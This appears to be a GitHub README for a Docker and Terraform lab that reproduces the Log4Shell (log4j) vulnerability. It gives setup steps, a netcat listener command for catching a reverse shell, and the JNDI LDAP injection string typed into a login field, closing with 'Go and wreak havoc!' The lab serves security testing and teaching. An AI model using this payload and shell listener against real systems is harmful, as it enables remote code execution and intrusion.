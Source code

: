 # Introduction

This repository is setup to quickly test the log4j vulnerability using Docker and Hashicorp Terraform.  All of the components of this test will run in Docker containers on the Docker network, accessible via 'host.docker.internal'.

# Credits / Disclaimer

This test environment is derived from a great blog post from Raxis: (https://raxis.com/blog/log4j-exploit)

The vulnerable application and exploit code came from cyberxml (https://github.com/cyberxml/log4j-poc).

All I've done is codified the environment to make it easy to spin-up and test this delicious exploit.  

__I do not assume any responsibility for adverse effects or malicious actions that may result from the use of the material in this repository.  Full stop.  It is up to **you** to decide if these materials are trustworthy and it is similarly your responsibility to use this information **ethically**.  I merely post these goodies so that reserchers, students, and security professionals can quickly create an environment and test the exploit for themselves.  Seacrest out._

# Prerequisites

- Docker Desktop (https://www.docker.com/)
- Hashicorp Terraform (https://www.terraform.io/)

# Setup

1. Clone this repository
2. Run 'terraform init' in the project directory
3. Start the Docker daemon
4. Run the 'docker-build.sh' bash script to build all of the project's container images.
5. Run 'terraform apply' to create all of the containers in the project.

# Exploitation

1. Shell into the log4j_netcat container using 'docker exec -it netcat /bin/bash' or something similar.  This is where you will receive your shell connection to the victim server once it's established.

2. In your session within the log4j_netcat container, enter the following command to start the listener:

~~~
nc -lv -s 0.0.0.0 -p 9001
~~~

3. In your browser, navigate to http://host.docker.internal:8080/log4shell/

4. Enter the following into the 'Username' field along with anything you want in the 'Password' field:

~~~
${jndi:ldap://host.docker.internal:1389/a}
~~~

5. Return to the log4j_netcat container shell and observe that you have connected to the victim server.

6. Go and wreak havoc!